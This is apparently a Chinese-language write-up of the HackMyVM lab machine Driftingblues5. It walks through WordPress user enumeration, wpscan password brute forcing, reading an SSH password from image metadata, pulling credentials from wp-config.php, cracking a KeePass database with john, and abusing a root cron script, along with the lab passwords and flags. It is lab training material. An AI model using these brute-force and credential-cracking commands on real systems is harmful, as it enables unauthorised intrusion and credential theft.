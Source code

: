 # Driftingblues5

2024-11-09 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues5

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 上跑的是 wordpress，先枚举用户名,发现 4 个：

```
wpscan --url http://192.168.5.40/ -e u

[+] abuzerkomurcu
[+] gill
[+] collins
[+] satanic
[+] gadd
```

使用 cewl 搜集网页中可能存在的单词作为字典：

```
cewl -d 2 http://192.168.5.40/ -w passwd
```

使用 wpscan 进行爆破,找到一个可以登陆的用户名：

```
wpscan -t 30 -U user -P passwd --url http://192.168.5.40

SUCCESS] - gill / interchangeable
```

但是这个用户在 wordpress 中不是管理员权限，同时 ssh 也不能登陆。在 wp 的后台中进行查看看看是否有可用的信息，发现 media 中有一个图片 http://192.168.5.40/wp-content/uploads/2021/02/dblogo.png， exiftool dblogo.png 发现密码提示信息：

```
ssh password is 59583hello of course it is lowercase maybe not
```

尝试用上面得到的用户名和 59583hello 去 ssh 登陆，发现 gill 的密码是 59583hello

登陆后，得到了 user flag：

```
gill@driftingblues:~$ cat user.txt
F83FC7429857283616AE62F8B64143E6
```

寻找提升到 root 权限的路径，先读取 wp-config.php 中的数据库配置信息：

```
define( 'DB_NAME', 'wordpressdb' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', '.:.zurrak.:.' );
```

su root 使用上面这个密码没有切换成功。最后只发现了一个加密文件：

```
gill@driftingblues:~$ file keyfile.kdbx
keyfile.kdbx: Keepass password database 2.x KDBX
```

是个 keepass 加密的文件，将其传输到 kali 上，使用 john 进行破解：

```
keepass2john keyfile.kdbx > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

porsiempre       (keyfile)
```

得到密码后，在 keeweb 上上传 keyfile 然后在线解密 https://app.keeweb.info/ 输入密码 porsiempre，然后发现其中的内容：

```
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
```

使用上面的密码对 root 进行 ssh 爆破，但是还是没有找到 root 的密码，

使用 linpeas 进行枚举，也没发现有其他信息，最后使用 pspy 看看有没有 root 的定时任务，发现每个一分钟就执行了一个脚本：

```
/bin/sh -c /root/key.sh
```

这个文件或许会修改某些文件，所以寻找最近修改的文件：

```
find / -type f -mtime -1 2>/dev/null |grep -v '/proc\|/run\|/sys'
```

发现 /home/gill/.gnupg 中的 pubring.kbx 改变了，同时根目录中有一个文件夹名字很奇怪 /keyfolder， 猜不出 /root/key.sh 中具体是什么操作，经过寻找解题思路，发现 /keyfolder 中存在唯一一个名为 fracturedocean 的文件时，就会创建 root 用户密码的文件，最终得到了 root 用户的密码：

```
gill@driftingblues:/keyfolder$ cat rootcreds.txt
root creds

imjustdrifting31
```

切换到 root 用户得到了 root flag：

```
9EFF53317826250071574B4D4EE56840
```
